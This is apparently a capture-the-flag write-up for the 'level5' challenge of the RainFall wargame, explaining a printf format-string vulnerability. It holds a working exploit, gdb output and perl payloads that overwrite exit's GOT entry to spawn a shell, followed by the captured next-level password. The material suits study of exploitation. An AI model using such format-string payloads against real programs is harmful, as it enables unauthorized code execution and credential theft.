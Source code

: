 ### Analysis

**In `main` :**
- call to function `n()`

**In `n()` :**

- `fgets` on `stdin` to a string `format` with a limited size of `0x200` characters
- and used in `printf(format)` which is a vulnerability, referring to printf man
 ```
    Code such as printf(foo); often indicates a bug, since foo may
    contain a % character.  If foo comes from untrusted user input,
    it may contain %n, causing the printf() call to write to memory
    and creating a security hole.
 ```
- terminated by an `exit()`

We also have a function `o()` never used

**In `o()` :**
- it calls a `system("/bin/sh")`
- terminated by an `exit()`

`o()` adress : 0x080484a4

`exit()` adress: 0x8049838
```
(gdb) info function
All defined functions:
...
0x080483d0  exit
0x080483d0  exit@plt
...
0x080484a4  o
0x080484c2  n
0x08048504  main
...

(gdb) x 0x080483d0
   0x80483d0 <exit@plt>:        jmp    *0x8049838
```

___

### Exploit

If we try to store a buffer `ABCD`, its done on the fourth position
```
level5@RainFall:~$ perl -e 'print "ABCD" . " %4\$x" . "\n"' | ./level5
ABCD 44434241
```

But we cannot use ret because of the `exit()`
We'll change the adress ont he GOT (Global Offset Table) to point to `o()` adress

> 0x8049838 [exit] -> 0x080484a4 [o()]

```
level5@RainFall:~$ perl -e 'print "\x38\x98\x04\x08" . "%134513824d" . "%4\$n" . "\n"' > /tmp/level5 && cat /tmp/level5 - | ./level5
...
whoami
level6
cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```